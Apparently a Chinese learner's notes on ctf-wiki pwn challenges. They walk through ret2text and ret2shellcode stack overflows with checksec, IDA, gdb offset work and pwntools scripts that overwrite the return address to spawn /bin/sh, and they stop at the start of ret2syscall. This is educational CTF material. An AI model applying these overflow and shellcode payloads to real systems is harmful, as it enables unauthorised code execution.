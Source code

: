 # ctf-wiki pwn刷题



思虑太多就会使人痛苦，入门pwn权当作清晨操练。相信时间，相信新的机遇。

使用seveng0佬的pwn ubuntu16虚拟机做题

## 0. 相关术语

**返回导向编程** (Return Oriented Programming)

小片段 gadgets 通常是以 `ret` 结尾的指令序列

shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。





## 1. 栈溢出

不同虚拟机地址可能不一样，以实际为准



### 1. ret2text

ret2text 即控制程序执行程序本身已有的的代码



```
checksec ./ret2text
[*] '/home/seveng0/Desktop/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了数据执行保护

打开IDA

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```



![image-20250212164119000](.\ctf-wiki pwn刷题.assets\image-20250212164119000.png)

交叉引用在secure函数处找到

```c
void secure()
{
  unsigned int v0; // eax
  int input; // [esp+18h] [ebp-10h] BYREF
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf(&unk_8048760, &input);
  if ( input == secretcode )
    system("/bin/sh");
}
```



![image-20250212164504728](.\ctf-wiki pwn刷题.assets\image-20250212164504728.png)

后面需要控制程序跳转到`0x0804863A`

鼠标悬停在s上看到s的偏移`-064h`，故s在`esp+1Ch`处

```assembly
.text:08048648 55                            push    ebp
.text:08048649 89 E5                         mov     ebp, esp
.text:0804864B 83 E4 F0                      and     esp, 0FFFFFFF0h
.text:0804864E 83 C4 80                      add     esp, 0FFFFFF80h ;-128的补码
...
.text:080486A7 8D 44 24 1C                   lea     eax, [esp+80h+s]
.text:080486AB 89 04 24                      mov     [esp], eax   ;s
.text:080486AE E8 AD FD FF FF                call    _gets
```



gdb调试，将断点下在`call _gets`处

```
gdb ./ret2text
b *0x080486AE
r
```



![image-20250212165243793](.\ctf-wiki pwn刷题.assets\image-20250212165243793.png)



![image-20250212222259410](./ctf-wiki pwn刷题.assets/image-20250212222259410.png)

```assembly
esp为0xffffcfd0
ebp为0xffffd058
s地址：0xffffcfec
s相对于ebp偏移：0xffffd058-0xffffcfec=0x6c
```



最终payload如下：

```python
from pwn import *
p=process('./ret2text')
target=0x804863a
p.sendline(b'A'*(0x6c+4)+p32(target)) #覆盖返回地址 
#虽说栈从高地址向低地址生长
#但字符串，数组等从低地址向高地址覆写
#32位程序中内存以四字节对齐，所以ebp和返回地址都是4字节,0x6c多加4覆盖了ebp，
#后面的p32(target)覆盖了返回地址
p.interactive()
```

![image-20250212214949922](./ctf-wiki pwn刷题.assets/image-20250212214949922.png)



### 2. ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

**在新版内核当中引入了较为激进的保护策略，程序中通常不再默认有同时具有可写与可执行的段，这使得传统的 ret2shellcode 手法不再能直接完成利用**。



```
checksec ./ret2shell*
[*] '/home/seveng0/Desktop/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

有可读可写可执行段



```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

将s拷贝到buf2，buf2在`.bss:0804A080`

查看一下bss段权限

```bash
gdb ./ret2shell*
b main  #断点下在main函数处
r
vmmap  #查看内存映射
```



![image-20250212220233982](./ctf-wiki pwn刷题.assets/image-20250212220233982.png)



可以看到bss段权限`rwxp`可读，可写，可执行，私有（其它进程不能访问）

那么我们参考上一题，并把返回地址覆写成buf2的地址

```
esp:0xffffcfc0
ebp:0xffffd048
s:esp+0x1c=0xffffcfdc
ebp与s的距离：0x6c
```





```python
from pwn import *
p= process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
#shellcraft.sh()：生成一个调用 /bin/sh 的 Shellcode
#asm()：将汇编代码转换为机器码字节序列
buf2_addr = 0x804a080
p.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))#0x6c+4=112
#将 shellcode 左对齐并填充到 112 字节，不足部分用 b'A' 填充。
p.interactive()
```

![image-20250212222103120](./ctf-wiki pwn刷题.assets/image-20250212222103120.png)



### 3. ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。



```bash
checksec rop
[*] '/home/seveng0/Desktop/pwn/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



